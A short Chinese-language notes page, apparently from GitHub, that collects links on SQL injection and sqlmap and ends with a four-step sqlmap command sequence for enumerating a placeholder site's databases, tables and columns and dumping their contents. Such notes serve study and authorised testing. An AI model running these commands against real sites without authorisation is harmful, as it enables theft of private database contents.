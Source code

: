 目录
	SQL注入方法

[使用SQLMAP对网站和数据库进行SQL注入攻击](http://drops.wooyun.org/tips/2113)

[Sqlmap注入技巧收集整理](http://www.lxway.com/4089025404.htm)

[sqlmap 寻找注入点](http://www.lxway.com/931786.html)

[没有注入点，如何拿站](http://www.lxway.com/912111582.htm)

[手工注入](http://www.rising.com.cn/newsletter/news/2012-05-24/11580.html)

[sqlmap](https://github.com/sqlmapproject/sqlmap)

[SQL注入 | 最棒的相关资料汇总](http://mp.weixin.qq.com/s?__biz=MzAwMTUyMjQ5OA==&mid=402619216&idx=1&sn=0c2b3c741449ddb859203ebcc8eb04af&scene=0#wechat_redirect)

[sqlmap手册](https://github.com/sqlmapproject/sqlmap/blob/master/doc/translations/README-zh-CN.md)

sqlmap步骤
//查数据库 
1、sqlmap -u http://www.xxx.com --dbs 
//查数据库表 
2、sqlmap -u http://www.xxx.com -D 数据库名 --tables 
//查数据库表字段 
3、sqlmap -u http://www.xxx.com -D 数据库名 -T 表名 --columns 
//查数据库字段内容 
4、sqlmap -u http://www.xxx.com -D 数据库名 -T 表名 -C 字段名1，字段名2，字段名3 --dump
